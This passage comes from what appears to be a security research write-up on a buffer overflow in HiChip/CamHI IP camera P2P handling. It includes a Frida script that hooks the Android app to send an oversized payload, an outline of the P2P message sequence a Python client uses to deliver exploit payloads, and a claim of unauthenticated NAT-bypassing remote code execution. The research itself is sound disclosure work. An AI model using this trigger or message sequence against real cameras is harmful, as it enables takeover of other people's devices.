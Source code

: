 Because the check in H2_P2P_Cmd_ReadRequest is 10 times the size of the buffer:

<p align="center">
    <img src="https://user-images.githubusercontent.com/50701542/99964065-04dd8180-2d93-11eb-9409-260a1cdb18b4.png" width="500" />
</p>

At this point we have almost all we need to start the exploit development process.

## Exploitation

The final exploit included in this repository has some offsets and base addresses redacted for obvious reasons, but with the information within you can make it working as an unauthenticated NAT-bypassing RCE.

For testing reasons, the following Frida script was used in conjuction with Android CamHI apk to trigger the buffer overflow:

```java
Java.perform(function(){
	console.log("OK");
	var p2penc = Java.use("com.hichip.control.HiCamera");
	p2penc.sendIOCtrl.overload("int","[B").implementation = function(x,y){
		console.log("int: \n"+x +"\nbytearray: \n"+y);
		if (y != null) {
			var buffer = Java.array('byte', y);
			console.log(buffer.length);
			var result = "";
			for(var i = 0; i < buffer.length; ++i){
			    result+= (buffer[i] & 0xff).toString(16);
			}
			console.log(result);
		}
		var buffer2 = Java.array('byte', [ 41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,
*** SNIP ***
    41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41,41 ]);
		return this.sendIOCtrl(x,buffer2)
	}
})
```

After confirm the overflow I wrote a dirty P2P client in python that does the following:

1. msg_hello -> msg_hello_ack
2. msg_p2p_req
3. msg_list_req1
4. msg_rly_hello
5. msg_rly_port
6. msg_rly_req
7. msg_rly_pkt -> msg_rly_rdy
8. send payloads

But first let check the binaries security properties with checksec:
